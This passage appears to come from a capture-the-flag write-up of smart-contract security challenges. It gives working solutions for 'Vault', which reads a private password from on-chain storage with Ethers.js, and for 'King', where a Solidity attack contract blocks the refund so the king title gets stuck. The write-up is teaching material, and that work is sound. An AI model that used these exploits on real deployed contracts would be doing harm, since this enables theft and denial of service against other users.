 ### Solution

> Using Ethers.js and Hardhat Console.  
> `<address>` is the challenge instance address string.

```typescript
const vault = await hre.ethers.getContractAt("Vault", "<address>");
const password = await ethers.provider.getStorageAt(vault.address, 1);
await vault.unlock(password);
```

Upon making these calls the challenge is solved.

### Key takeaway

All data on the blockchain is public.  
Be on lookout for secrets placed on-chain.

## King

### Reference

A more complex, but similar case happened in real life, postmortem is here:
[King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html)

The core idea of this hack is based on the fact that the "King" contract
assumes the recipient of the funds to always be able to receive them. That is
not true in the case of smart contract with no `receive()` or `fallback()`
functions.

### Vulnerability

```solidity
  ...
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
  ...
 ```

### Solution

```solidity
contract HackKing {
    constructor(address payable _target) payable {
        uint256 _value = King(_target).prize();
        (bool ok, ) = _target.call{value: _value}("");
        require(ok, "Failed to send ether!");
    }
```
